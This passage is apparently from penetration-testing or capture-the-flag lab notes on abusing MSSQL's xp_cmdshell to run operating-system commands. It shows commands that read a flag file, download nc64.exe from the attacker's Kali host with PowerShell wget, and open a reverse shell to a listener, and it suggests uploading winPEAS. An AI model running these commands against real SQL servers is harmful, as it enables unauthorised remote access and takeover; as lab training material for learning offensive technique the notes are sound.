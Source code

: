```msSQL
RECONFIGURE
go
```

>Note:  The Windows process spawned by `xp_cmdshell` has the same security rights as the SQL Server service account

Now we can use the MSSQL terminal to execute commands:

```msSQL
# Who am i?
xp_cmdshell 'whoami'
go

# This will return the .exe files existing in the current directory
EXEC xp_cmdshell 'dir *.exe'
go

# To print a file
EXECUTE xp_cmdshell 'type c:\Users\sql_svc\Desktop\user.txt
go

# With this (and a "python3 -m http.server 80" from our kali serving a file) we can upload a file to the attacked machine, for instance a reverse shell like nc64.exe
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe"
go

# We could also bind this cmd.exe through the nc to our listener. For that open a different tab in kali and do a "nc -lnvp 443". When launching the reverse shell, we'll get a powershell terminal in this tab by running:
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe IPfromOurKali 443";
# You could also upload winPEAS and run it from this powershell command line
```

There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql).

